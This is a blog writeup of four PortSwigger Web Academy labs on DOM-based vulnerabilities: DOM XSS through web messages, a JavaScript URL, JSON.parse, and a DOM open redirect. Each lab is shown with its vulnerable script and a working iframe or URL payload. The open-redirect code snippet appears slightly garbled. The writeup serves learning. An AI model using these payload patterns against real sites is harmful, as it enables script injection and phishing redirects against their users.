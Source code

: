 ```yaml
---
title: (Portswigger/WebAcademy) - DOM-based Vulnerabilities
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-15 09:00:00 +0200
categories: [Web Application, DOM-based Vulnerabilities]
tags: [Notes, DOM-based Vulnerabilities, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the DOM-based Vulnerabilitiess.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/dom-based) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.

## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [DOM XSS using web messages](#dom-xss-using-web-messages)
- [DOM XSS using web messages and a JavaScript URL](#dom-xss-using-web-messages-and-a-javascript-url)
- [DOM XSS using web messages and JSON.parse](#dom-xss-using-web-messages-and-jsonparse)
- [DOM-based open redirection](#dom-based-open-redirection)

# DOM XSS using web messages
> This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

When we spin the lab, we'll notice weird `object` on the page and if we check the source code, this is the code that relates to it:

```js
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
})
```
![picture 0](/assets/images/602b1d4f7bce78fca20d659bd777e66cc52a1a779bfae0380c5c20b55f9ace96.png)  

To reach the sink, we'll need to use `postMessage` method and we can do that by using an iFrame.

This is the payload that will be delivered to the victim:

```html
<iframe src="https://0aea00d403ec1405801edaa10086001b.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

Keep in mind that `postManage` can be sent between different windows and/or iframes.

# DOM XSS using web messages and a JavaScript URL
> This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

Next lab looks like the previous one, only we are dealing with different vulnerable script:

```js
window.addEventListener('message', function(e) {
  var url = e.data;
  if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
    location.href = url;
  }
}, false);
```

Payload:
```html
<iframe src="https://0ad6001e03db14e280f0e957004a00cc.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Once the iframe finishes loading, it utilizes the `postMessage()` method to transmit the JavaScript payload to the main page. An event listener identifies the "http:" string within the payload and forwards the payload to the `location.href` sink. At this point, the `print()` function is invoked.

# DOM XSS using web messages and JSON.parse
> This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

This lab makes use of following script in the body:

```js
window.addEventListener('message', function(e) {
  var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
  document.body.appendChild(iframe);
    try {
      d = JSON.parse(e.data);
    } catch(e) {
      return;
    }
    switch(d.type) {
      case "page-load":
        ACMEplayer.element.scrollIntoView();
        break;
      case "load-channel":
        ACMEplayer.element.src = d.url;
        break;
      case "player-height-changed":
        ACMEplayer.element.style.width = d.width + "px";
        ACMEplayer.element.style.height = d.height + "px";
        break;
    }
}, false);
```

This script creates an `iFrame` if `postMessage` is recieved, and runs the message through `JSON.parse`. 

Payload:
```html
<iframe src=https://0aab009a03752c238500be2300570002.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

When the ‘load-channel’ case is triggered in the switch statement, the URL from the received message is set as the source for the iframe. However, in this scenario, the URL in the message actually carries our JavaScript payload.

# DOM-based open redirection
> This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

This lab allows adding comments to posts. Button appears with following code:

```html
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
The `url` parameter is vulnerable and will take the victim to any url.

Payload:
```
https://0a24004903b65f7a82b847bd00d20037.web-security-academy.net/post?postId=10&url=https://exploit-0ace00f503b15fdc8293465c01d700fd.exploit-server.net/
```